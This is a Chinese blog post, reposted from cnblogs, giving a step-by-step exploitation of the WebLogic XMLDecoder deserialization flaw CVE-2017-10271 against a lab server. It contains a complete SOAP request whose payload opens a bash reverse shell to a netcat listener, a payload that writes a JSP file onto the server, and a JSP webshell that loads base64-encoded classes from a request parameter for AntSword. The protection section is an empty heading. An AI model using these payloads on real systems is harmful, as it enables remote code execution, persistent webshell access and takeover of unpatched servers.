



# 服务器容器漏洞-weblogic cve-2017-10271 - 挖洞 404 - 博客园

> 原文：[`www.cnblogs.com/wd404/p/17616907.html`](https://www.cnblogs.com/wd404/p/17616907.html)

[weblogic CVE 2017-10271_ 白帽 Chen_D 的博客-CSDN 博客](https://blog.csdn.net/qq_40345591/article/details/130812911)

1、介绍

名称：weblogic XMLDecoder 反序列化漏洞(CVE-2017-10271)

编号：CVE-2017-10271

原理：Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。可以构造 XML 语句，上传一句话木马，getshell。

应用：weblogic 

版本：

| Weblogic 10.3.6.0， Weblogic 12.1.3.0， Weblogic 12.2.1.2， Weblogic 12.2.1.3 |

2、测试

2.1 搭建靶场


2.2 测试

(1)http://192.168.0.15:7001/，确认是 weblogic



(2)http://192.168.0.15:7001/wls-wsat/CoordinatorPortType，有提到请求如下说明存在漏洞


(3)开 nc

```
nc -lvvp 8023
```

*   开 nc 监听一个准备的端口，任意，未被其它应用占用即可。然后等待连接


(4)请求

*   burp 将前面访问/wls-wsat/CoordinatorPortType 的请求发送到 repeater 模块（这么做主要是考量协议和 Host）
*   复制以下的 poc 粘贴，编辑请求头部 Host 的主机和端口，编辑请求体部中的 ip 和端口。后一个 ip 是本地开 nc 的主机，端口即 nc 监听端口
*   请求之后，响应 500，以及响应体部大致如下，说明漏洞验证成功。此时，nc 也会接收到请求，有所变化
*   注意，提交的相关系统命令需要编码



```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.0.15:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 639

<soapenv:Envelope > <soapenv:Header>
<work:WorkContext >
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.0.15/8023 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```


(5)创建和写入文件

*   在前面的基础上，复制如下的内容覆盖请求体部，发送，响应 500
*   访问 http://192.168.0.15:7001/bea_wls_internal/test.jsp，为写入内容


```
<soapenv:Envelope >
<soapenv:Header>
    <work:WorkContext >
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
           <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
                <void method="println">
                    <string>
                        <![CDATA[
                            <% out.print("test"); %>
                        ]]>
                	</string>
                </void>
                <void method="close"/>
            </object></java></java>
    </work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```


(6)小马

*   在前面的基础上，将如下的小马复制粘贴替换。发送请求，响应 500
*   中国蚁剑连接成功



```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
public byte[] base64Decode(String str) throws Exception {
    try {
        Class clazz = Class.forName("sun.misc.BASE64Decoder");
        return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
    } catch (Exception e) {
        Class clazz = Class.forName("java.util.Base64");
        Object decoder = clazz.getMethod("getDecoder").invoke(null);
        return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
    }
}
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```


3、防护